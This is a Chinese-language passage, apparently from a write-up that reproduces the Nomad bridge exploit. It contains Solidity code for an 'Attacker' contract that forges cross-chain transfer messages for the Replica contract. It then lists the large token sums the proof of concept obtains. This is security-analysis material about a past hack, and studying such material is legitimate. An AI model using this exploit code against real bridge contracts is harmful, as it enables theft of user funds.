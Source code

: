 在这之后我们根据余额来创建用来攻击的消息，并作为输入传给`IReplica(REPLICA).process`函数。这个函数将会把我们伪造的信息传递给相应的后端合约，进而触发解锁和转移资产的请求，最终将桥玩弄于鼓掌之间。

*产生符合条件的消息*
```solidity=
contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```

在生成消息的工程中要注意不同参数的编码以确保Nomad的协议可以正确解码。值得一提的是我们需要制定消息的转发路径-桥路由合约和ERC20桥地址。同时我们需要用`0x3`作为类型来表示代币转移。

最后，我们要确定可以带给我们利润的参数-代币地址，转移金额和接收者。正如我们之前所提到的，这将创建对于`Replica`合约全新的信息。

不可思议的是，就算加上一些和Foundry相关的日志信息，整个PoC的代码也只有87行。通过运行以上复现代码，我们可以获得以下资金：

- 1,028 WBTC
- 22,876 WETH
- 87,459,362 USDC
- 8,625,217 USDT
- 4,533,633 DAI
- 119,088 FXS
- 113,403,733 CQT
